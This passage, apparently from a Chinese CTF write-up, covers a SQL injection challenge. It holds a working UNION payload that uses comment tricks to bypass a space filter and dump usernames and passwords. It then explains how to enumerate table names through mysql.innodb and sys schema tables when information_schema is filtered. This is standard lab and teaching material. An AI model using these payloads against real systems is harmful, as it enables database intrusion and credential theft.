 ```php
    }
}

$conn->close();
?>
......
```

列数据

```sql
'/**/union/**/select/**/1,(select/**/group_concat(name,0x7e,pass)/**/from/**/users),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282322917.png)

看 wp 的时候发现自己又非预期了... 题目考察的是无列名注入

information_schema 被过滤了, 因为含有 or

参考文章

[https://blog.csdn.net/m0_49835838/article/details/109159839](https://blog.csdn.net/m0_49835838/article/details/109159839)

[https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/](https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/)

**information_schema 的绕过**

> InnoDB 数据表 (mysql > 5.6)
> 
> mysql.innodb_table_stats
> 
> mysql.innodb_index_stats

需要配置 `default-storage-engine=InnoDB`

不过默认的存储引擎是 MyISAM, 大多数情况下无法利用

```sql
select group_concat(table_name) from mysql.innodb_table_stats where database_name=database();

select group_concat(table_name) from mysql.innodb_index_stats where database_name=database();
```

> sys 库 (mysql > 5.7)
> 
> sys.schema_auto_increment_columns
> 
> sys.schema_table_statistics_with_buffer
> 
> sys.x$schema_table_statistics
> 
> sys.x$ps_schema_table_statistics_io
> 
> ......

